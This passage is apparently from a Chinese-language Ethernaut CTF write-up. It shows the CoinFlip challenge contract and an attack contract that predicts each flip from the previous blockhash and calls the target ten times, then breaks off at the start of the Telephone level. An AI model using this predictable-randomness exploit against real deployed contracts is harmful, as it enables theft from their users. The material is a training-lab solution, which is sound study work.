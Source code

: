 这道题让我学习了如何通过Remix部署合约并执行相应的合约函数，本题需要部署一个攻击合约，因为题目合约中要求`lastHash != blockValue`，安照题目要求执行10次即可。

???+ done "exp"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;

    contract CoinFlip {

        uint256 public consecutiveWins;
        uint256 lastHash;
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

        constructor() {
            consecutiveWins = 0;
        }

        function flip(bool _guess) public returns (bool) {
            uint256 blockValue = uint256(blockhash(block.number - 1));

            if (lastHash == blockValue) {
                revert();
            }

            lastHash = blockValue;
            uint256 coinFlip = blockValue / FACTOR;
            bool side = coinFlip == 1 ? true : false;

            if (side == _guess) {
                consecutiveWins++;
                return true;
            } else {
                consecutiveWins = 0;
                return false;
            }
        }
    }

    contract hack {
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;  
        CoinFlip c = CoinFlip(0x2Ee20b7C14d2c7376F8E04cA175D840FF0644B85);

        function exp() public{
            uint256 blockValue = uint256(blockhash(block.number - 1));
            uint256 coinFlip = blockValue / FACTOR;
            bool side = coinFlip == 1 ? true : false;
            c.flip(side);
        }
    }
    ```

## Telephone

??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
